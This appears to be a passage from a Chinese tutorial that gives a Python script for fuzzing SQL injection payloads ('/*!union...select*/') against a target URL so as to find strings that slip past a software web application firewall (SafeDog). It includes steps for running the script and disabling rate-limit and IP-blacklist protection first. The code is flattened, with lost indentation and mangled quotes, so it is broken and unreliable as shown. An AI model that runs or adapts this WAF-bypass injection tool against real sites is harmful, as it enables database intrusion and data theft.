 #定义目标

Fuzz_a = [‘/*!’,’*/’,’/**/’,’/’,’?’,’~’,’!’,’.’,’%’,’-‘,’*’,’+’,’=’]

Fuzz_b = [”]

Fuzz_c = [‘%0a’,’%0b’,’%0c’,’%0d’,’%0e’,’%0f’,’%0h’,’%0i’,’%0j’]

FUZZ = Fuzz_a+Fuzz_b+Fuzz_c

#配置 fuzz 字典

header = {‘User-Agent’:’Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0′}

#设置请求的 headers

for a in FUZZ:

pass

for b in FUZZ:

pass

for c in FUZZ:

for d in FUZZ:

pass

for e in FUZZ:

pass

PYLOAD = “/*!union”+a+b+c+d+e+”select*/ 1,2”

urlp = url+PYLOAD

res = requests.get(urlp,headers=header)

#使用 for 排列组合 fuzz 字典并请求页面

if ‘wait’ in res.text:

print (“[*]URL:”+ urlp +” 过狗！”)

f=open(‘result.txt’,’a’)

f.write(urlp+”n”)

f.close

#如果返回的页面中包含 wait 字符，则打印并写出过狗 payload。

将这段代码放进 kali linux，或者 windows 系统需要安装 pip 模块 python2.7 即可然后运行一下

[![](https://img.colabug.com/2018/02/5130e0b0c96fe1943dc628462da619a0.jpg)](https://img.colabug.com/2018/02/5130e0b0c96fe1943dc628462da619a0.jpg "Fuzz自动化Bypass软WAF姿势")

在运行之前一定要将 cc 防护关闭, 或者把ＩＰ黑名单关掉 Fuzz 过快容易被封 IP

在 windows 系统上运行几分钟后, 会出现一个叫 result.txt 的文件，里面就是我们跑出来的姿势了

[![](https://img.colabug.com/2018/02/a07765fd97498ca29b6aed652a8e8e63.jpg)](https://img.colabug.com/2018/02/a07765fd97498ca29b6aed652a8e8e63.jpg "Fuzz自动化Bypass软WAF姿势")
